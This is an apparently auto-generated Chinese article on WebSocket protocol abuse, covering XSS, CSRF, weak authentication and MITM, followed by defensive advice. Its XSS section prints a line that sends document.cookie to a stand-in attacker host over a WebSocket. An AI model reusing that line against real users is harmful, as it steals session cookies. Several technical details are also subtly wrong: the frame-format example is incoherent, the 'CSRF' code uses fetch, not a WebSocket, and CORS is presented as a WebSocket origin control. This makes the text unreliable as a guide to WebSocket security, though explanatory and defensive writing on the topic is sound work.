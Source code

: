 # WebSocket协议滥用

## 引言
WebSocket是一种网络通信协议，旨在实现浏览器与服务器之间的双向、全双工通信。它在Web应用中被广泛使用，能够实现实时数据传输。然而，WebSocket的灵活性也带来了安全隐患，特别是在不当使用或配置不当的情况下，可能导致严重的安全问题。本文将系统性地探讨WebSocket协议的基本原理、常见的滥用情况及其技术细节，并提供防御思路和建议。

## WebSocket协议概述

### 定义
WebSocket是HTML5规范的一部分，提供了一种在单个TCP连接上进行全双工通信的方式。与传统的HTTP请求-响应模型不同，WebSocket允许客户端和服务器之间保持一个长期的连接，从而减少了延迟并提高了效率。

### 原理
WebSocket的工作原理可以分为以下几个阶段：
1. **握手阶段**：客户端通过HTTP请求发起WebSocket连接，服务器响应以确认连接。
2. **数据传输阶段**：连接建立后，双方可以随时发送和接收数据，使用帧（frame）格式进行数据封装。
3. **关闭阶段**：任何一方都可以发起关闭连接的请求。

### WebSocket的优点
- **实时性**：适合需要实时交互的应用，如在线游戏、聊天应用等。
- **减少延迟**：避免了HTTP的重复握手过程，减少了延迟。
- **节省带宽**：在数据交换上比HTTP更高效，特别适合频繁的数据交换场景。

## WebSocket的安全挑战

### 滥用分类
WebSocket的滥用主要可以分为以下几类：

#### 1. 跨站脚本攻击（XSS）
攻击者利用XSS漏洞在受害者的浏览器中执行恶意脚本，从而建立WebSocket连接，以获取用户的敏感信息。

#### 2. 跨站请求伪造（CSRF）
通过伪造用户的请求，攻击者可以在用户不知情的情况下利用WebSocket发送恶意数据。

#### 3. 不当认证与授权
如果WebSocket连接没有进行有效的身份验证和权限控制，攻击者可以伪造消息或获取敏感数据。

#### 4. 数据泄露
WebSocket的消息内容未经过加密，可能导致敏感数据在传输过程中被窃取。

### 技术细节

#### 1. 握手过程中的安全问题
WebSocket的握手过程依赖于HTTP协议，因此，如果HTTP连接受到攻击，WebSocket的安全性也会受到影响。例如，攻击者可能通过中间人攻击（MITM）来劫持握手请求。

**示例代码（握手请求）**：
```javascript
const socket = new WebSocket('ws://example.com/socket');
socket.onopen = function() {
    console.log('WebSocket连接已建立');
};
```

#### 2. 数据帧的格式与传输
WebSocket使用的帧格式（frame format）包含数据类型、长度等信息，攻击者可以构造特定的数据帧来执行恶意操作。例如，使用控制帧发送恶意命令。

**数据帧格式示例**：
```
0x81 // FIN + opcode
0x7e // payload length
0x00 // mask key
0x01 // message payload
```

#### 3. 认证与授权机制
WebSocket连接应在建立时进行严格的身份验证，常见的方法包括JWT（JSON Web Token）和OAuth。未进行安全控制的WebSocket连接容易受到攻击者利用。

```javascript
const socket = new WebSocket('wss://example.com/socket?token=YOUR_JWT_TOKEN');
```

#### 4. 加密与安全传输
为了防止数据泄露，WebSocket连接应使用WSS（WebSocket Secure）协议，通过TLS加密传输数据。确保敏感信息不会在网络中以明文形式传输。

## 攻击向量

### 1. XSS攻击
利用XSS漏洞，攻击者可以在用户的浏览器中注入恶意JavaScript代码：
```javascript
const maliciousSocket = new WebSocket('ws://attacker.com/steal?cookie=' + document.cookie);
```

### 2. CSRF攻击
攻击者可以构造一个恶意网站，诱使用户点击链接，从而触发未经授权的WebSocket请求：
```javascript
fetch('https://example.com/api', {
    method: 'POST',
    body: JSON.stringify({ action: 'malicious_action' }),
    headers: {
        'Content-Type': 'application/json',
        'X-Requested-With': 'XMLHttpRequest'
    }
});
```

### 3. 中间人攻击（MITM）
在握手阶段，攻击者可以通过MITM技术篡改WebSocket的连接请求，导致数据泄露或篡改。

## 防御思路与建议

### 1. 强化身份验证
- 在连接建立时使用强身份验证机制（如JWT、OAuth）。
- 确保所有敏感操作都需要重新认证。

### 2. 实施CORS策略
- 通过CORS（跨源资源共享）策略限制WebSocket连接的来源，避免非法来源的连接。

### 3. 使用WSS协议
- 始终使用加密的WebSocket连接（WSS），确保数据在传输过程中的安全性。

### 4. 输入验证与输出编码
- 对所有输入进行严格的验证，防止XSS和其他注入攻击。
- 对输出进行编码，以确保浏览器不会执行恶意脚本。

### 5. 定期安全审计
- 定期对WebSocket实施的应用进行安全审计，发现并修复潜在的安全漏洞。

### 6. 监控与日志
- 实施监控机制，记录WebSocket连接和消息的日志，以便后续分析和审计。

## 结论
WebSocket协议为Web应用提供了强大的实时通信能力，但其安全隐患不可忽视。通过加强身份验证、使用加密协议、实施安全策略等措施，可以有效预防WebSocket的滥用和攻击。安全从业人员应不断关注WebSocket的最新安全动态，提升系统的整体安全性。

---

*文档生成时间: 2025-03-13 20:56:47*
